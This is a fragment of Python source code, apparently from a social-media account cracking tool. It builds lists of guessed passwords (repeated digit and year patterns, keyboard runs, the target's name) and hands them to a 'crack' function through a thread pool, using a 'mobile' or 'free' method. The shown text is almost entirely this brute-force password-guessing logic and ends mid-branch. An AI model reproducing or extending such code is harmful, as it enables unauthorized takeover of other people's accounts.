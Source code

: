 					pwv.append('11223344556677')
					pwv.append('1q2w3e4r5t')
					pwv.append('qqwweerr')
					pwv.append('12345@12345')
					pwv.append('12345@')
					pwv.append('20032003')
					pwv.append('first last')
					pwv.append('00998877')
					pwv.append('qwer1234')
					pwv.append('07800780')
					pwv.append('oopp1122')
					pwv.append('oooopppp')
					pwv.append('qwertyuiopasdfghjkl')
					pwv.append('qwertyuiop')
					pwv.append('07700770')
					pwv.append('11112222')
					pwv.append('00001111')
					pwv.append('aassddff')
					pwv.append('ppooiiuu')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append('19901990')
					pwv.append('19911991')
					pwv.append('19921992')
					pwv.append('19931993')
					pwv.append('19941994')
					pwv.append('19951995')
					pwv.append('19961996')
					pwv.append('19971997')
					pwv.append('19981998')
					pwv.append('19991999')
					pwv.append('1234512345')
					pwv.append('1234554321')
					pwv.append('1122334455')
					pwv.append('123456654321')
					pwv.append('11223344556677')
					pwv.append('1q2w3e4r5t')
					pwv.append('qqwweerr')
					pwv.append('12345@12345')
					pwv.append('12345@')
					pwv.append('20032003')
					pwv.append('first last')
					pwv.append('00998877')
					pwv.append('qwer1234')
					pwv.append('07800780')
					pwv.append('oopp1122')
					pwv.append('oooopppp')
					pwv.append('qwertyuiopasdfghjkl')
					pwv.append('qwertyuiop')
					pwv.append('07700770')
					pwv.append('11112222')
					pwv.append('00001111')
					pwv.append('aassddff')
					pwv.append('ppooiiuu')
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
